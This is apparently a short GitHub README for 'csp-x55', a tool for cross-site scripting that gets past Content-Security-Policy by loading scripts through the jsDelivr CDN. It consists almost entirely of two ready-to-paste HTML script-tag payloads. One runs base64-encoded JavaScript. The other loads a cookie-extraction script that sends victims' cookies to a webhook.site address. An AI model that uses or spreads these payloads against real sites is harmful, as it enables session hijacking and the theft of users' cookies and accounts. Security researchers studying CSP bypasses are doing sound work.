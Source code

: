 # csp-x55
XSS by bypassing Content-Security-Policy through CDN.



Example usage using `alert('xss');` in base64 `YWxlcnQoJ3hzcycpOw==`:
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@b983bf3b472cbe70c18209ac35ccb80bf73ca2d4/x55.js?c=YWxlcnQoJ3hzcycp">
```

Example extracting cookies:
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js" r="https://webhook.site/youridhere"></script>
```
